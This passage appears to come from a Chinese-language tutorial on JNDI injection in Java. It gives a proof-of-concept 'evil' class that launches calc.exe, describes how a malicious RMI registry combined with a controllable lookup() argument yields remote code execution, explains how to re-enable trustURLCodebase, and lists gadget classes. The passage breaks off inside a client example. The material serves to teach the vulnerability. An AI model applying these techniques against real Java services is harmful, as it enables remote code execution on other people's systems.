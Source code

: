 

恶意类(弹计算机)：

```java
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```





模拟场景，攻击者开启恶意RMI注册表服务Server，同时恶意类EvilObject放置在同一环境中，由于JNDI客户端的lookup()函数参数可控，因为当客户端输入指向Server的URI进行lookup操作时就会触发JNDI注入漏洞，导致远程代码执行。**PS**:这些代码只适用于低版本的jdk,`JDK 6u132`、`7u122`、`8u113` 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为`false`，运行时需加入参数 `-Dcom.sun.jndi.rmi.object.trustURLCodebase=true` 。因为如果 `JDK` 高于这些版本，默认是不信任远程代码的，因此也就无法加载远程 `RMI` 代码。

![image-20230321122926066](https://raw.githubusercontent.com/todis21/image/main/202303211229233.png)





在RMI中调用了InitialContext.lookup()的类有：

```
org.springframework.transaction.jta.JtaTransactionManager.readObject()
com.sun.rowset.JdbcRowSetImpl.execute()
javax.management.remote.rmi.RMIConnector.connect()
org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)
```



在LDAP中调用了InitialContext.lookup()的类有：

```
InitialDirContext.lookup()
Spring's LdapTemplate.lookup()
LdapTemplate.lookupContext()
```



#### classFactoryLocation参数注入

`lookup()`参数注入是针对RMI客户端的,	`classFactoryLocation`是针对RMI服务端的,也就是服务端程序在调用Reference()初始化参数时，其中的classFactoryLocation参数外部可控，导致存在JNDI注入

例如下面的：



客户端，lookup参数**不可控**

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Properties;


public class Client {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
```